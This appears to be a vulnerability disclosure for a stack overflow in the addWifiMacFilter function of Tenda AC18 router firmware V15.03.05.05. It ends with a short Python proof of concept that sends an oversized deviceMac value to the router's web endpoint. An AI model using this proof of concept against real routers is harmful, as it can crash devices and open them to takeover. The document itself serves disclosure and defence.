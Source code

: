 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `addWifiMacFilter` function. The `v11` variable receives the `deviceMac` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `deviceMac` can trigger this security vulnerability.

![image-20240306165547354](addWifiMacFilter_deviceMac.assets/image-20240306165547354.png)

![image-20240306165556643](addWifiMacFilter_deviceMac.assets/image-20240306165556643.png)

![image-20240306165606917](addWifiMacFilter_deviceMac.assets/image-20240306165606917.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addWifiMacFilter"
payload = b"a"*1000

data = {"deviceMac": payload, "deviceId":1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306165755915](addWifiMacFilter_deviceMac.assets/image-20240306165755915.png)
